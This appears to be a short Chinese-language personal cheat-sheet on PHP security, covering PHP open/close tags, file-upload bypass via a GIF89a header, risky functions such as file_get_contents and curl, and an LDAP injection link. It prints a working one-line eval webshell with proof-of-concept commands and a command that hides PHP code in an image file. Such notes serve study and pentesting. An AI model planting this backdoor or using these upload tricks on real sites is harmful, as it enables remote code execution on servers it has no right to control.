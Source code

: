 ```yaml
---
title: "php"
date: 2016-01-25 14:15
---
```


## 一句话后门

```php
$cmd = $_POST['cmd'];                                                      
eval("$cmd;");

poc:
? cmd=echo phpinfo()  
? cmd=echo exec("ls -l")
```

## php 开关标签

php共有四种开关标签，如下两种总是有效的

```
<?php ?> 
<script language=”php”> </script>
```

另外两种需要在 php.ini 配置文件设置开或关

```
(“<?”, “?>”)
(“<%”,”%>”)
```

    
## upload

** bypass **

* 文件头+GIF89a



## dangerous functions

* file_get_contents()

> string file_get_contents ( string $filename [, bool $use_include_path = false [, resource $context [, int $offset = -1 [, int $maxlen ]]]] )

支持本地文件，HTTP，FTP

禁用file_get_contents,修改php.ini

```
allow_url_fopen=Off
```

* curl

支持 FTP(S),HTTP(S),TELNET,FILE,DICT,LDAP,GOPHER

install: sudo apt-get install php5-curl. then restart apache


## LDAP注入

[乌云 LDAP注入与防御][5]

[5]: http://drops.wooyun.org/tips/967

## 备注

* 注入php 到图片等

```
echo '<?php phpinfo();?>' >> 1.jpg
```

文件名后缀改为**.php**，就会用php方式解析，执行phpinfo().
